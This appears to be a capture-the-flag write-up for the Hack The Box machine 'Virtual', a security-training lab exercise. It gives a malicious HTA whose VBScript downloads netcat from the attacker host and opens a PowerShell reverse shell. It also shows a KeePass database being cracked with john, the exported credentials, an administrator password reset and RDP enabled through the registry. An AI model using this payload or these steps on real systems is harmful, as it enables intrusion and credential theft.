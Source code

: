 ## Virtual

### User flag

```bash
$ nmap -sS -sV -Pn -n -p- -T5 10.129.1.26

Nmap scan report for 10.129.1.26
Host is up (0.023s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE       VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) PHP/8.0.8)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

For this challenge, we were given a web application listening on the port 8080, hosted on Windows, that provided a contact form with the indication "`We usually respond to queries after a few minutes`":
![Virtual web](img/virtual_1.png)

We noticed we could send arbitrary links that ended being browsed by Internet Explorer. For example, by submitting the form with the message `http:///10.10.14.65:8080/aa`, we received the following request:
```bash
$ nc -nlvp 8080

GET /aa HTTP/1.1
Accept: /
Accept-Language: en-US
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
Host: 10.10.14.65:8080
Connection: Keep-Alive
```

After playing a bit with JavaScript, we tried to provide an HTML Application (HTA) to Internet explorer, and we were surprised it worked.

We then submitted another HTML Application that downloaded and executed a pre-built *netcat* binary in order to spawn a reverse shell on the box:

```bash
$ cat index.hta

<html>
<head>
<script language="VBScript">
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "powershell curl http://10.10.14.65:8080/nc.exe -o C:/Windows/Temp/nc.exe; C:/Windows/Temp/nc.exe 10.10.14.65 9999 -e powershell.exe"
    End Sub
RunProgram()
</script>
</head>
<body>
    Nothing to see here..
</body>
</html>

$ python3 -m http.server 8080

POST / HTTP/1.1
Host: 10.129.1.26
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

name=b&email=aa%40aa.com&subject=a&message=http%3A%2F%2F10.10.14.65%3A8080%2Findex.hta
```

Once the application was ran by Internet Explorer, we received a reverse shell. 

We noticed we were already local Administrator. However, there was only a user flag on the file system:

```bash
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.65] from (UNKNOWN) [10.129.1.26] 49632
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Apache24\htdocs>> whoami /all
whoami /all

USER INFORMATION
----------------
User Name             SID                                         
===================== ============================================
virtual\administrator S-1-5-21-1926016034-1676465966-846418798-500

GROUP INFORMATION
-----------------
Group Name                                                    Type             SID                                           Attributes                                                     
============================================================= ================ ============================================= ===============================================================
Everyone                                                      Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114                                     Mandatory group, Enabled by default, Enabled group             
VIRTUAL\docker-users                                          Alias            S-1-5-21-1926016034-1676465966-846418798-1000 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
[...]

PS C:\Users\dev\Desktop> type user.txt
type user.txt
HTB{9077a_l0ve_H7a}
```

When searching for the root flag, we noticed multiple interesting files and directories:

* C:\Users\dev\Documents\Database.kdbx
* C:\Users\Administrator\.docker
* C:\Users\Administrator\.minikube
* C:\Users\Administrator\.VirtualBox

The KeePass database was protected by a password so we cracked it using john:

```bash
$ keepass2john Database.kdbx > hashes.lst

$ john --wordlist="SecLists/Passwords/Leaked-Databases/rockyou-75.txt" hashes.lst 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
purple           (Database)
1g 0:00:00:00 DONE (2021-07-27 03:16) 5.555g/s 200.0p/s 200.0c/s 200.0C/s sunshine..justin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database contains a custom entry named `Docker Server`:

```bash
$ keepassxc-cli export Database.kdbx  -f csv
Enter password to unlock Database.kdbx: purple

"Group","Title","Username","Password","URL","Notes"
"Database","Sample Entry","User Name","Password","https://keepass.info/","Notes"
"Database","Sample Entry #2","Michael321","12345","https://keepass.info/help/kb/testform.html",""
"Database/Network","Docker Server","dev","VeryStrongPassword1!","",""
```

We listed the VirtualBox machines belonging to the Administrator user:

```bash
PS C:\Program Files\Oracle\VirtualBox> ./VBoxManage list vms
"Docker" {11bdf380-f3ae-422e-92f7-6f0f816743d1}
```

As we noticed a Docker VM running on VirtualBox, we decided to set up an RDP in order to easily interact with the VM. To do so, we enabled RDP and we changed the local Administrator password:

```bash
PS> net user Administrator Test1234
net user Administrator Test1234
The command completed successfully.

PS> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Finally, we logged in using the RDP access, and we authenticated as `dev` on the Docker VM's console with the password `VeryStrongPassword1!` that was stored on the KeePass:

```bash
$ xfreerdp /u:Administrator /p:'Test1234' /v:10.129.1.26
[03:31:09:044] [9943:9944] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[03:31:09:044] [9943:9944] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
```
 
![Docker VM graphical console](img/virtual_2.png)

The `dev` user was on the sudoers so it was allowed to escalate its privileges to `root` inside the VM and to read the root flag:

![Docker VM graphical console logged in](img/virtual_3.png) 

From the screen, we read `HTB{v80X_G0t_m4n4g3d}`.
